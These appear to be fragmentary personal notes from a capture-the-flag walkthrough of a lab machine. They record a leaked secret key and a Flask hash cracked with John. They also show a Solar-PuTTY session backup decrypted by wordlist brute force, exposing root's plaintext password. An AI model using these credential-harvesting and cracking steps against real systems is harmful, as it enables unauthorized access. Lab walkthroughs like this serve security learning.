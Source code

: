 
*read key got user *



user in a dev group


*env file but wtf is this for*

SECRET_KEY=VeryStrongS3cretKeyY0uC4NTGET



*for loading the hash i did not have flask2john so i added the same format john expects and put the body of the hash from hex to base64 and it worked*



in opt there is a .dat file 



*decrypted it with a script*

└> python3 solar-putty-decrypt-script.py sessions-backup.dat ~/Documents/wordlists/rockyou.txt 
[103] password='estrella'           

{"Sessions":[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b-b721-da76cbe8ed04","AuthenticateScript":"00000000-0000-0000-0000-000000000000","LastTimeOpen":"0001-01-01T00:00:00","OpenCounter":1,"SerialLine":null,"Speed":0,"Color":"#FF176998","TelnetConnectionWaitSeconds":1,"LoggingEnabled":false,"RemoteDirectory":""}],"Credentials":[{"Id":"452ed919-530e-419b-b721-da76cbe8ed04","CredentialsName":"instant-root","Username":"root","Password":"12**24nzC!r0c%q12","PrivateKeyPath":"","Passphrase":"","PrivateKeyContent":null}],"AuthScript":[],"Groups":[],"Tunnels":[],"LogsFolderDestination":"C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"}



*root*
Username":"root","Password":"12**24nzC!r0c%q12"





